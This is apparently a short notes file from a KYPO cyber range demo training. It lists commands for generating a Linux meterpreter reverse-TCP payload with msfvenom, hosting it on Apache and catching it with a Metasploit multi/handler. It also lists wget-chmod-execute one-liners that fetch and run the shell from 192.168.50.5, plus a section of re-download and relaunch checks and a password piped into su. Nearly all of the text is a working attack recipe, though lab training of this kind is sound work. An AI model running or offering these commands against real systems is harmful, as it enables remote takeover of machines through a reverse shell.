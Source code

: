 # kypo-crp-demo-training-ubuntu

USE MSFVENOM

---

server
------

wget http://192.168.50.5/shell-x64.elf

chmod +x shell-x64.elf

---

client
------

(Stageless payload)

sudo msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.50.5 LPORT=6996 -f elf -o /var/www/html/shell-x64.elf

sudo service apache2 start

msfconsole

use exploit/multi/handler

set PAYLOAD linux/x64/meterpreter_reverse_tcp

set LPORT 6996

set LHOST 192.168.50.5

exploit

---

old

---

if ! pidof -x /home/server/shell-x64.elf; then sudo /home/server/shell-x64.elf; fi

if [ ! -s /home/server/shell-x64.elf ]; then wget -O /home/server/shell-x64.elf http://192.168.50.5/shell-x64.elf; fi

if [ -s /home/server/shell-x64.elf ]; then chmod +x /home/server/shell-x64.elf; fi

echo password | su -c whoami server


wget -O /home/server/shell-x64.elf http://192.168.50.5/shell-x64.elf && chmod +x /home/server/shell-x64.elf && /home/server/shell-x64.elf
